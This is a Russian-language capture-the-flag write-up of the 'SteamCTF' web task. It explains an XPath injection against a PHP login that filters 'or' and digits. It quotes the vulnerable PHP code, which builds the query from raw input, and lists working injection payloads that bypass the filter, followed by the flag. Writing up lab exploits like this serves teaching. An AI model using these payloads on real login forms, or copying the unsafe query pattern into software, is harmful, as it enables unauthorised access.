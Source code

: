 ## SteamCTF

| Событие | Название | Категория | Сложность |
|:--------|:---------|:----------|----------:|
| final_isetCTF 2020 | SteamCTF | Web | ........ |

### Описание
> Автор: [ @dikidikiday ]
>
> **Записки охранника Игоря:** *день первый*
> 
> Во всей моей профессиональной практике я не находил более ответственного, ленивого,но прилежного сисадмина, чем этот новичок. Он мне сразу не понравился. Ну даже мне понятно, что от рута в консоли не надо работать!! Я вот сижу под своим **Игорь** и всем доволен! Вообще в нашем банке есть особенная система, специально, чтобы не вести таблицу доходов/расходов, но попробуй объясни это новичку...
> В этой системе обращение к элементам **документа**, имеющего древовидную структуру, напоминает взаимодействие с файловой системой **(/)**.
> Всем удобно, никто не жалуется.
> Эту [систему](http://ваш_сайт:1001) создал старый сисадмин Павлик, но его выгнали, из-за этого он ушёл и даже не сказал пароль!!!
> Знаю только, что он фанат Warface. Ээх..поиграть бы..
> Но для начала надо найти пароль, вдруг он его куда-нибудь записал...

### Решение 

Самое сложное и важное -- прочитать условие.
Понимаем, что повествование переключилось, теперь идет не от лица горе-сисадмина, а от лица охранника Игоря. Выделено имя -- на заметку, скорее всего надо будет ломать именно его.
Система, похожая чем-то на БД из прошлых соревнований первого дня.
Документ,имеющий древовидную структуру намекает на **XML документ**.
Гуглим.
**XML (eXtensible Markup Language)** – это всем известный язык разметки, с помощью которого создаются XML документы, имеющие древовидную структуру. 

Пример простейшего XML документа:

```
<?xml version="1.0" encoding="UTF-8"?>
<foo>
<bar param="value"/>
</foo>
```

Гуглим еще.
**XPath (XML Path Language)** – это язык, который предназначен для произвольного обращения к частям XML документа.
О! То, что надо!

По аналогии с первым вебом на прошлых соревнованиях можно предположить, что тут тоже инъекция, тем более такая есть, а автор намекает на это.

Гуглим [туц](https://raz0r.name/articles/vvedenie-v-xpath-inekcii/) и [туц](https://xakep.ru/2008/06/24/44160/)

Представим что у нас есть XML база и аутентификация, основанная на ней:

```
<?xml version='1.0' encoding='ISO-8859-1'?> <users>
    <user>
        <id> 1 </id>
        <username> admin </username>
        <password> xp8th! </password>
    </user>

    <user>
        <id> 2 </id>
        <username> test </username>
        <password> test987 </password>
    </user>

    <user>
        <id> 3 </id>
        <username> bigolnerd </username>
        <password> nerdsneedlovetoo
</password>
</user>
</users>
```

Можно сразу было попробовать вставить кавычку и понять, что это была xpath inj:
```
Warning: SimpleXMLElement::xpath(): Invalid predicate in /var/www/html/index.php on line 561

Warning: SimpleXMLElement::xpath(): xmlXPathEval: evaluation failed in /var/www/html/index.php on line 561
```

`'1'='1` и аналогичные кавычки не работают, также блочатся `or` и цифры.

Зайдя в исходный код страницы, находим ссылку
`<!-- <a href="/index.php/src/">Исходный код</a> -->` на исходный код.

Видим, что пользовательский ввод через поля **login** и **password** фильтруется:

```php
$blacklist = Array('or','0', '1', '2', '3', '4', '5', '6', '7', '8', '9');
``` 

Также, наюблюдаем очень странную проверку верности введённых пользователем данных:

```
        if ($_SERVER['REQUEST_METHOD'] === 'POST'){
          $login = $_POST['login'];
          $pass = $_POST['pass'];
          if(contains($pass, $blacklist) or contains($login, $blacklist)){
              die("Простите, тут запрещено хекать!!");
          }
          else{
            $xml = simplexml_load_file('/users.xml');

            $query = "//users/user[login/text()='$login' and password/text()='$pass']";

            $result = $xml->xpath($query);
            if(!$result){
                echo "Попробуй еще раз! Я верю в тебя!";
            }
            else{
                $user_data = $xml->xpath("//users/user[login/text()='$login']")[0];
                $flag = $user_data->flag;
                echo "Ваш флаг STEAMCTF: ".$flag;
            }
          }
        }
```

Видим, что нам нужно провести инъекцию в поле **password** так, чтобы запрос был верным и выдал хотя бы один результат, а в поле **login** ввести необходимого нам пользователя (из описания задания можно понять, что нам необходим **Игорь**).

Учитывая фильтры, простейшие инъекции:
```
'] | //* | /foo[bar='
'] | /* | /foo[bar='
'] | /users/user | /foo[bar='
```

При этом последний вариант можно вставить только в логин.


**Флаг:**

> flag{xp4tH_I5_jU5T_4_w4rM_uP}
